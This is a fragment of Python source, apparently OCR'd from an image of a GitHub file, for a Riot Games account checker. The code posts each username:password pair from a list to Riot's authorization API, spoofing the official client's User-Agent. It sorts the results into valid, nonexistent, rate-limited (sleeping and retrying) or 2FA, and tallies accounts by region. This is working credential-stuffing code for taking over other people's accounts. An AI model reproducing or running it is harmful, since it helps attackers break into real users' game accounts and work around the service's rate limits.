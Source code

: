             print(f"{Fore.RESET}    -                 Radiant                >>:({Fore.CYAN}{radiant}{Fore.RESET})")
            print(f"{Fore.RESET}    ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━")
            print(f"{Fore.RESET}    -                 EU                     >>:({Fore.CYAN}{eu}{Fore.RESET})")
            print(f"{Fore.RESET}    -                 NA                     >>:({Fore.CYAN}{na}{Fore.RESET})")
            print(f"{Fore.RESET}    -                 AP                     >>:({Fore.CYAN}{ap}{Fore.RESET})")  
            print(f"{Fore.RESET}    -                 BR                     >>:({Fore.CYAN}{br}{Fore.RESET})")
            print(f"{Fore.RESET}    -                 KR                     >>:({Fore.CYAN}{kr}{Fore.RESET})")
            print(f"{Fore.RESET}    -                 LATAM                  >>:({Fore.CYAN}{latam}{Fore.RESET})")   
        headers = OrderedDict({
            "Accept-Language": "en-US,en;q=0.9",
            "Accept": "application/json, text/plain, */*",
            'User-Agent': 'RiotClient/51.0.0.4429735.4381201 rso-auth (Windows;10;;Professional, x64)'
        })
        session = sesh()
        session.headers = headers
        session.mount('https://', TLSAdapter())
        data = {
            "acr_values": "urn:riot:bronze",
            "claims": "",
            "client_id": "riot-client",
            "nonce": "oYnVwCSrlS5IHKh7iI16oQ",
            "redirect_uri": "http://localhost/redirect",
            "response_type": "token id_token",
            "scope": "openid link ban lol_region",
        }
        headers = {
            'Content-Type': 'application/json',
            'User-Agent': 'RiotClient/51.0.0.4429735.4381201 rso-auth (Windows;10;;Professional, x64)',
        }
        r = session.post(f'https://auth.riotgames.com/api/v1/authorization', json=data, headers=headers)
        data = {
            'type': 'auth',
            'username': username,
            'password': password
        }
        r2 = session.put('https://auth.riotgames.com/api/v1/authorization', json=data, headers=headers)
        data = r2.json()
        if "access_token" in r2.text:
            pattern = compile(
                'access_token=((?:[a-zA-Z]|\d|\.|-|_)*).*id_token=((?:[a-zA-Z]|\d|\.|-|_)*).*expires_in=(\d*)')
            data = pattern.findall(data['response']['parameters']['uri'])[0]
            token = data[0]
            typebanned = "unbann"
            checked += 1
        elif "auth_failure" in r2.text:
            if choice == 2:
                print(f"{Fore.RED}[Not exist]{Fore.RESET} {username}:{password}")
            if choice == 3:
                print(f"{Fore.RED}[Not exist]{Fore.RESET} {username}:{password}")
            notexist += 1
            checked += 1
            continue
        elif "rate_limited" in r2.text:
            rate += 1
            if choice == 2:
                print(f"{Fore.YELLOW}[Ratelimited]{Fore.RESET} {username}:{password} waiting 30 sec")
            if choice == 3:
                print(f"{Fore.YELLOW}[Ratelimited]{Fore.RESET} {username}:{password} waiting 30 sec")
            time.sleep(30)
            continue
        elif 'multifactor' in r2.text:
            typebanned = "2FA"